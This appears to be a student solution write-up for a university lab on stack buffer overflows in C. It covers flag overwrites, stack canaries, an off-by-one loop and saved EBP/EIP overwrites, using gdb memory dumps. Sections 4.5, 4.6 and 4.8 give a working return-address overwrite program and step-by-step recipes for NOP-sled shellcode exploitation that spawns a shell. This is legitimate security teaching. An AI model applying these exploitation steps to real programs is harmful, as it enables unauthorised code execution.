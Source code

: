 # Solutions TP 4

## 4.2
This is exactly the code given in the slides. The critical part is the following:
```c
int auth_flag = 0;
char password_buffer[16];
strcpy(password_buffer,password);
```

So we see we have a buffer of length 16 and just "above" a variable which given us access to a critical section.
We can do 3 differents things:
1. put a password of length < 16: unless we found the right password, this will give us a "bad password!".
2. put a password of length > 16 && length < 25: this will give us a "bad password!" but as we have rewrite the auth_flag this will also give us a "access granted"
3. put a password of length > 25 this will give us "bad password!" and then "seg fault" as we've gone to far and also rewrite the saved eip

## 4.3
Here we have the same code as 4.2 but with a stack protector. So if we try a password longer than 16 we get a "stack smashed detected aborted"
If we compare the 2 different code in gdb and more specially the **check_authentification** we can see the difference between the 2 code. 
![difference between 4.2 and 4.3](img/diff_43-42.png)

We can see on the picture above, that the right code (which is the one with the protection) is bigger than the left code. 
Then we notice on the right code at address **0X000011e1** that we put something on eax. This something is a random value generated from a gs register.
Then this random value will be put on the stack and this will become the protection also known as canari(see following lectures).

## 4.4
Here we have to manner to find how to do an infinite loop:
1. only look at the assembly
2. also look at the source code

If we look at the source code the vulnerability is found easily. 
Indeed we see in the following code the vulnerability:
```c
 int i;
 char buf[16];
 for (i=0;i<=16;i++)
```
We have a buffer of length 16 but in the foor loop we can copy 17.
So we are able on the last caracter to rewrite the value of i and then to start again and again the for loop.
we can also find this by lookting at the assembly:
0x004011a0: jmp to func+50. After that, the compiler is comparing a value of i with 16 and then jump back to 0x00401199 <+16>: movl $0x0,-0x4(%ebp)

Here is the asssembly: __:
 0x00401189 <+0>: push %ebp
 0x0040118a <+1>: mov %esp,%ebp
 0x0040118c <+3>: sub $0x20,%esp
 0x0040118f <+6>: call 0x4011ea <__x86.get_pc_thunk.ax>
 0x00401194 <+11>: add $0x2e6c,%eax
 0x00401199 <+16>: movl $0x0,-0x4(%ebp) //init i =0
 0x004011a0 <+23>: jmp 0x4011bb <func+50> //jump to +50 
 0x004011a2 <+25>: mov -0x4(%ebp),%edx
 0x004011a5 <+28>: mov 0x8(%ebp),%eax
 0x004011a8 <+31>: add %edx,%eax
 0x004011aa <+33>: movzbl (%eax),%eax
 0x004011ad <+36>: lea -0x14(%ebp),%ecx
 0x004011b0 <+39>: mov -0x4(%ebp),%edx
 0x004011b3 <+42>: add %ecx,%edx
 0x004011b5 <+44>: mov %al,(%edx)
 0x004011b7 <+46>: addl $0x1,-0x4(%ebp)
 0x004011bb <+50>: cmpl $0x10,-0x4(%ebp) //compare the value of i with 16
 0x004011bf <+54>: jle 0x4011a2 <func+25> //if i<=16 , jump again at +16
 0x004011c1 <+56>: nop
 0x004011c2 <+57>: nop
 0x004011c3 <+58>: leave
 0x004011c4 <+59>: ret 

0x4(%ebp)is where the value of i is stored. If we put a 16 char's input, the last iteration of the for loop will overwrite
i's value with the null character (all bits of this char are set to 0), which is the next value on the stack. (if we look at the
code, i is declared just before the buffer).
 
 The cmp instruction : (i<=16) will always be true, because each time we reach str[16] = ptr[16], we will set i's value
to 0 so the condition is always true, we will be stuck in an infinite loop. the compilation with clang leads to an infinite loop too. A way to secure the code is to use the -fstack-protector or to put the value of i further from the buffer in the code.

## 4.5
We have a program that contains a main function calling a foo function()
 Foo is using strcpy to copy the content of an array into another.
 We will use GDB to locate some important values : EIP and the buffer size.
 -gdb -q loop
We run run the main function and disass the foo function because in order to find its return value (saved eip, because we want to change it by a value that points to an address which would create a loop)
we set a breakpoint right after the call of strcpy (in foo) in order to see what was copied.

The main idea here is to find the size of the buffer and find the saved eip address of foo:
 We re-run the code after having set the breakpoint.
to find the saved eip we type:
 "info frame" or "x $eip"

we get :
 Stack level 0, frame at 0xbffff2b0:
 eip = 0x4011db in foo (loop.c:10); saved eip = 0x40122e
 called by frame at 0xbffff2f0
 source language c.
 Arglist at 0xbffff2a8, args: buffer=0x405160 '\220' <repeats 38 times>
 Locals at 0xbffff2a8, Previous frame's sp is 0xbffff2b0
 
The value that interest us is : saved eip = 0x40122e , we will have to modify this value with the address of our choice.
then , to know the buffer size ( we can simply check in the code but , that's another way to find it)
 -x/24xw newbuffer

the first x for "examine", 24 for the quantity of data, second x means hexadecimal and w means words. so we want
to examine the 24 words at the position of the newbuffer in memory (on the stack).

We get __:
 0xbffff2b0: 0x90909090 0x90909090 0x90909090 0x90909090
 0xbffff2c0: 0x90909090 0x90909090 0x90909090 0x90909090
 0xbffff2d0: 0x00405100 0x00404000 0xbffff308 0x0040122e
 0xbffff2e0: 0x00405160 0xffffff90 0x00000020 0x004011fb
 0xbffff2f0: 0x00000002 0xbffff3b4 0xbffff3c0 0x00405160
 0xbffff300: 0xbffff320 0x00000000 0x00000000 0xb7dff7e1
 
 x90 is a NOP instruction, 0xbffff308 seems to be the ebp value and 0x0040122e is the eip value that we want to
overwrite.In order to know the size of the buffer, we simply subtract 0xbffff2d0 - 0xbffff2b0 and we get 32 (in
decimal). We see 8 more bytes stored
 that we can overwrite too. At this point, we are free to change EBP and EIP values.
 We now have to change the 0x0040122e by 0x0040124d (the address of the call of foo). Here the solution to
reach the saved EIP :

```
#include "stdlib.h"
#include "string.h"
// YOU CAN CHANGE THIS VALUE!
#define TARGET 48
void foo(char * buffer){
 char newbuffer[32];
 strcpy(newbuffer, buffer);
}
int main() {
 char * buffer;
 buffer = malloc(sizeof(char)*TARGET);
 memset(buffer, '\x90',TARGET);
 buffer[44]=0x4d;
 buffer[45]=0x12;
 buffer[46]=0x40;
 buffer[47]=0x00;
 foo(buffer);
return 0;
}

```
## 4.6
In this program , we can find two errors :
The amount of byte copied is always the same (256) despite the real number of bytes written as input (ex, if I
write a string containing 50 bytes).
 secàondly, the for loop condition is wrong because it has 257 rounds of copy. The buffer only has 256 bytes ,
moving the least significant byte of what follows it immediately in the memory (the ebp value stored by main).
 The way to exploit this is to overwrite saved ebp in order to make it pointing to an address located inside the
buffer.

Here is the stack representation :
 ------------------------> esp
 | int i                |
 |-------------------- -|
 | buffer[256]          |
 |----------------------| -> ebp of func()
 |saved ebp main        |
 |--------------------- |
 | saved eip main       |
 |----------------------|
 |                      |
 |                      |
 |     STACK            |
 |                      |
 ────────────────────────
 
 if we write enough " A" char on the buffer (256), we would be able to reach the saved EBP with the null char
(because 257 iterations of "copy" are done). If EBP is altered, the ret instruction at the end of func will load the eip
value from another location and not the original.
Instead of putting A's in the return address, we will fill eip with the address of the shellcode we'll put in the buffer,
for example
As argument , we can put :
 1) x * "\x90" of nop instructions, where X is the offset between the address of the beginning of our buffer and the
address of the new EBP (set earlier).
 2) after this, we will fill the new EBP value (because it is now located inside the buffer) with 4 more "\x90" bytes. =>
+ 'x\90'x4
 3) at this point, we will overwrite the new EIP that is located next to the new EBP, with the address of the shellcode
in the stack
 4) finally we have to write the shellcode itself and fill the remaining bytes with "\x90"'s
the exploit is done, just need to execute.
 (remember to disable randomisation of memory segments by linux or to compile with the -g flag if this doesn't
work)
If you use gcc, this will not work because of the leave instruction that does “mov ebp, esp” and then “pop ebp”.This
instruction will change the EBP we set and the exploit will be canceled. Gcc uses it, but clang does not.

detailed solution at : https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows/

## 4.7
Nothing to explain all is in the instruction.

## 4.8
First of all you have to notice that we have a function call to function func.
So we have different step to go through before spawning a shell.
1. find the value of ebp/eip before the function call
To do so we but a breakpoint just before the call to the function call and we print the value of ebp/eip with the command **i r** and you have to remember it.
2. find the size we have before touching ebp/eip.
To do so we put a breakpoint in the function **func** just after the call to **strcpy**.
then we print the stack (**x/40wx $esp**) and search for the value we've found at step 1 for ebp and eip.
you can see the result on the following picture (the value might be different for you).
![found ebp value](img/find_ebp.png)
3. Calculate the size before touching ebp/eip
Now we have to calculate how much bytes we have before touching ebp/eip. In this case we have 72 bytes before touching ebp and then 76 before touching eip.
4. Calculate number of NOP instruction
At the begining of our buffer we will put NOP instruction. So we have to know how much.
To do so we have to know the size of our shellcode. In this case if you used the same as 4.7 it's 55 bytes long.
So we know that before touching eip we have to put 76 bytes.
We can thus calculate the number of NOP instruction(**\x90**) 76-55=21
4. Rewrite eip with our adress in the NOP instruction. Personally i used **0xbffff218** but any address inside the NOP can be used.
5. Run gdb with this handcraft argument
you can see how to run the code in gdb with this argument on the following picture
![command](img/command_2_run.png)
6. you made it
congratulation you've spawned a shell
![result](img/result.png)    
